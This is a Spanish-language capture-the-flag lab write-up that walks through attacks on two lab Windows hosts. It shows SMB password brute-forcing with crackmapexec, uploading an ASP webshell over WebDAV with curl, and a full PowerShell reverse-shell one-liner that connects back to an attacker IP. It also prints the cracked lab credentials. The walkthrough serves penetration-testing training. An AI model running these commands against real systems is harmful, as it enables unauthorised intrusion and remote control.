# System-Host Based Attacks CTF 1

- Wordlists
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
/usr/share/webshells/asp/webshell.asp

- FLAG1

Nos dan como pista que la contraseña de *bob* es débil
```bash
crackmapexec smb target1.ine.local -u bob -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```


bob:password_123321

Ahora tenemos credenciales para conectarnos pero al intentar acceder nos dice que no hay recursos compartidos disponibles para conectarnos
```bash
smbclient -L //target1.ine.local -U bob
```



Intentaremos descubrir recursos compartidos expuestos, ahora no nos ofrecen ningún diccionario del tipo *shares.txt* por lo que usaremos smbmap
```bash
smbmap -r -u bob -p password_123321 -H target1.ine.local
```



No parece haber nada intersante

Vamos a intentar reutilizar las credenciales en otro sitio
- Por ejemplo en la web nos pedía un login nada más acceder



Accedemos a un Windows IIS



Haremos un reconocimiento del servidor
```bash
dirsearch http://target1.ine.local -u bob:password_123321
```



Vemos un */webdav/*



- FLAG2

Vamos a intentar explotar el webdav
```bash
davtest -url http://target1.ine.local -auth bob:password_123321
```



Permite la subida de archivos, podríamos tratar de subir una shell.aspx

Subimos el archivo con curl
```bash
curl -u 'bob:password_123321' -T /usr/share/webshells/asp/webshell.asp http://target1.ine.local/webdav/webshell.asp
```



Alternativamente podríamos haber usado *cadaver* para conectarnos al **webdav** y hacer un PUT
```bash
cadaver http://target1.ine.local/webdav
```



Consultamos la webshell para ejecutar comandos
```bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.37.3',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Ha salido de la pagina *revshells* la de **powershell#2**

Vemos la flag2



iis apppool\defaultapppool

- FLAG3

Se nos dice que hay algunos recursos smb con archivos escondidos en target2
```bash
nmap -p- -sCV --min-rate=5000 -n target2.ine.local -oN scanNmap2.txt
```



A priori no podemos acceder
```bash
smbclient -L target2.ine.local
```



Intentaremos bruteforcear usuario y pass
```bash
crackmapexec smb target2.ine.local -u /usr/share/metasploit-framework/data/wordlists/common_users.txt -p wordlists/wordlists/100-common-passwords.txt
```


administrator:pineapple

Encontramos la flag3 haciendo un escaneo de los recursos compartidos
```bash
smbmap -r -uadministrator -ppineapple -H target2.ine.local
```



Esta dentro de **./C$**

Nos conectamos al smb en C$
```bash
smbclient //target2.ine.local/C$ -U administrator
```



- FLAG4

Nos dice que está en el *Desktop*
- Buscaremos en los escritorios de los usuarios, ya que el recurso compartido expuesto es todo C:\\\
Encontramos la flag en /Users/Administrator/Desktop


